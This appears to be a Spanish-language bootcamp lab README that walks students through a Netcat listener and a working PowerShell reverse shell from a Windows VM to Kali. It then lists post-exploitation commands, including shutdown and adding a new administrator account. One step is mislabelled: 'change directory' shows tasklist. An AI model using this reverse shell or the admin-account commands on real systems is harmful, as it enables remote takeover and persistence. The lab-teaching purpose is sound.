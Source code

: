 <!-- hide -->
# Comandos CMD de Windows para Hacking Remoto

> By [@rosinni](https://github.com/rosinni) and [other contributors](https://github.com/breatheco-de/commands-for-remote-hacking/graphs/contributors) at [4Geeks Academy](https://4geeksacademy.co/)

[![build by developers](https://img.shields.io/badge/build_by-Developers-blue)](https://4geeks.com)
[![build by developers](https://img.shields.io/twitter/follow/4geeksacademy?style=social&logo=twitter)](https://twitter.com/4geeksacademy)

*Estas instrucciones estan [disponibles en español](https://github.com/breatheco-de/reverse-shell-and-remote-hacking/blob/main/README.es.md)*

### Antes de empezar...

> ¡Te necesitamos! Estos ejercicios se crean y mantienen en colaboración con personas como tú. Si encuentras algún error o falta de ortografía, contribuye y/o repórtalo.

<!-- endhide -->

## 🌱 ¿Cómo empezar este proyecto?

Este ejercicio tiene como objetivo utilizar **comandos CMD de Windows** en el contexto de una conexión remota, simulando un ataque de **hacking remoto**. Este tutorial te ayudará a establecer una reverse shell desde una máquina Windows 10 hacia una máquina Kali Linux, ejecutando una serie de comandos para obtener información crítica del sistema Windows. Todo esto se hará en un entorno controlado, utilizando máquinas virtuales, y estará enfocado en la fase de **post-explotación** de un ataque ético.

### Requisitos

- **Máquina atacante (Kali Linux)**:
  - Software necesario: `Netcat` (preinstalado en Kali Linux)
  
- **Máquina objetivo (Windows 10)**:
  - Acceso a **PowerShell** y permisos de ejecución de scripts

> Ambas maquinas virtuales deben estar configuradas con la opción **adaptador en modo puente** para que puedan comunicarse a través de la red local.

## 📝 Instrucciones


1. Configuración de la Red. Verifica que ambas máquinas se puedan comunicar utilizando el comando `ping` en Kali hacia Windows y viceversa.

2. Establece la conexión con Netcat en la máquina Kali Linux (Atacante). Abre una terminal y escucha en un puerto específico (en este caso, el puerto 4444) utilizando **Netcat**:
     
```bash
nc -lvnp 4444
```
Esto establecerá un listener en la máquina Kali, esperando la conexión desde Windows.

3. Abre **PowerShell en la máquina Windows 10 (Objetivo)** y ejecuta el siguiente script para establecer la reverse shell:

```powershell
     $client = New-Object System.Net.Sockets.TCPClient("IP-de-Kali", 4444);
     $stream = $client.GetStream();
     $reader = New-Object System.IO.StreamReader($stream);
     $writer = New-Object System.IO.StreamWriter($stream);
     $writer.AutoFlush = $true;

     while ($true) {
         $data = $reader.ReadLine();
         
         
         if ($data -eq "exit") { break }

         try {
             $result = Invoke-Expression $data 2>&1 | Out-String;
             $writer.WriteLine($result);
         } catch {
             $writer.WriteLine("Error: $_");
         }

         $writer.Flush();
     }
```

  **Nota**: Recuerda reemplazar `"IP-de-Kali"` con la dirección IP de tu máquina Kali Linux.

![imagen](assets/powershell.png)

<!-- ### Ejecuta comandos remotamente -->

Con el script ejecutándose en Windows, ya puedes enviar comandos desde Kali a través de la sesión Netcat que has iniciado. Aquí tienes algunos comandos útiles para interactuar con la máquina Windows:

![imagen 1](assets/listening_dir.png)

### Comandos básicos de windows:

- **Listar archivos en el directorio actual**:
    ```bash
    dir
    ```
- **Obtener información del sistema**:
    ```bash
    systeminfo
    ```
![imagen 2](assets/systeminfo.png)

- **Obtener la configuración de red:**:
    ```bash
    ipconfig
    ```
![imagen 3](assets/ipconfig.png)

- **Listar procesos en ejecución**:
    ```bash
    tasklist
    ```
### Comandos para información detallada:

![imagen 4](assets/hostname.png)

- **Ver información del equipo**:
    ```bash
    hostname
    ```
- **Listar los usuarios en el sistema**:
    ```bash
    net user
    ```
    
- **Ver las conexiones de red activas:**:
    ```bash
    netstat -an
    ```
### Comandos para navegar por el sistema de archivos:

- **Cambiar de directorio:**:
    ```bash
    tasklist
    ```
- **Crear un archivo o directorio:**:
    ```bash
    mkdir C:\TestFolder
    ```
### Comandos administrativos (si tienes privilegios):

- **Apagar o reiniciar el sistema:**:
    ```bash
    shutdown /s /t 0   # Apagar
    shutdown /r /t 0   # Reiniciar
    ```
- **Agregar un usuario administrador:**:
    ```bash
    net user nuevo_usuario contraseña /add
    net localgroup Administradores nuevo_usuario /add
    ```
    > Investiga mas comandos para practicar.

### Cerrar la sesión
- Esto hará que el bucle en PowerShell termine y cierre la conexión.
    ```bash
    exit
    ```
![imagen 5](assets/exit.png)


<!-- hide -->

## Colaboradores

Gracias a estas personas maravillosas ([emoji key](https://github.com/kentcdodds/all-contributors#emoji-key)):

1. [Rosinni Rodriguez (rosinni)](https://github.com/rosinni) contribution: (build-tutorial) ✅, (documentation) 📖
  
2. [Alejandro Sanchez (alesanchezr)](https://github.com/alesanchezr),  contribution: (bug reports) 🐛

Este proyecto sigue la especificación [all-contributors](https://github.com/kentcdodds/all-contributors). ¡Todas las contribuciones son bienvenidas!

Este y otros ejercicios son usados para [aprender a programar](https://4geeksacademy.com/es/aprender-a-programar/aprender-a-programar-desde-cero) por parte de los alumnos de 4Geeks Academy [Coding Bootcamp](https://4geeksacademy.com/us/coding-bootcamp) realizado por [Alejandro Sánchez](https://twitter.com/alesanchezr) y muchos otros contribuyentes. Conoce más sobre nuestros [Cursos de Programación](https://4geeksacademy.com/es/curso-de-programacion-desde-cero?lang=es) para convertirte en [Full Stack Developer](https://4geeksacademy.com/es/coding-bootcamps/desarrollador-full-stack/?lang=es), o nuestro [Data Science Bootcamp](https://4geeksacademy.com/es/coding-bootcamps/curso-datascience-machine-learning).Tambien puedes adentrarte al mundo de ciberseguridad con nuestro [Bootcamp de ciberseguridad](https://4geeksacademy.com/es/coding-bootcamps/curso-ciberseguridad).

<!-- endhide -->
